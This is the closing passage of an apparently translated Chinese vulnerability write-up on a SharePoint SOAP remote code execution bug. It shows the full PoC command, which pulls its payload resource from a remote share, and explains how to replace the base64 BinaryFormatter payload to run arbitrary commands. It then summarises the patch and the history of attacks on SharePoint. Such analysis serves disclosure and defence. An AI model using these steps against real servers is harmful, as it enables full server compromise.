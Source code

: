 最终构造的命令如下：

```
SP_soap_RCE_PoC.exe http://Sp2019/sites/siteofuser2/ user2 P@ssw0rd contoso //192.168.50.210/share/SP_soap_RCE_PoC.RCE_Resource.resources
```

[![](https://p1.ssl.qhimg.com/t018fa8c1b1a57662f5.png)](https://p1.ssl.qhimg.com/t018fa8c1b1a57662f5.png)

SharePoint的确会提示错误信息，表示我们指定了不安全的类型，但攻击依然能够成功完成。我们可以检查目标服务器上的`Temp`目录：

[![](https://p2.ssl.qhimg.com/t013e89991eae88f66e.png)](https://p2.ssl.qhimg.com/t013e89991eae88f66e.png)

这意味着攻击者可以执行任意系统命令，拿下整个服务器。为了执行其他命令，我们需要生成自己的`*.resource`文件。这里我们可以使用任意文本编辑器打开`RCE_Resource.resx`文件，使用所需的payload替换经过base64编码的`BinaryFormatter` payload。

[![](https://p4.ssl.qhimg.com/t01ad465f532f1bf2e3.png)](https://p4.ssl.qhimg.com/t01ad465f532f1bf2e3.png)

我们可以保存文件，在Visual Studio中打开项目重新编译。带有新payload的`SP_soap_RCE_PoC.RCE_Resource.resources`文件将位于`\SP_soap_RCE_PoC\SP_soap_RCE_PoC\obj\Release\`目录中。



## 0x03 总结

根据微软的描述，官方通过“更正SharePoint对应用包源标记的检查过程”从而修复了这个漏洞。有趣的是，这6个SharePoint漏洞（包括严重等级的漏洞）都纳入同一个公告中。官方并没有给出足够信息，解释为什么某些漏洞等级评为严重级别，其他漏洞评为重要级别。因为这一点，我们建议大家将这些漏洞都当成“严重”级别漏洞来处理。在过去一段时间，攻击者都很喜欢利用SharePoint漏洞。2019年，攻击者曾在实际环境中广泛使用过[CVE-2019-0604](https://www.zerodayinitiative.com/blog/2019/12/18/looking-back-at-the-impact-of-cve-2019-0604-a-sharepoint-rce)。这个漏洞是否会受攻击者欢迎，我们还是留给时间来证明。
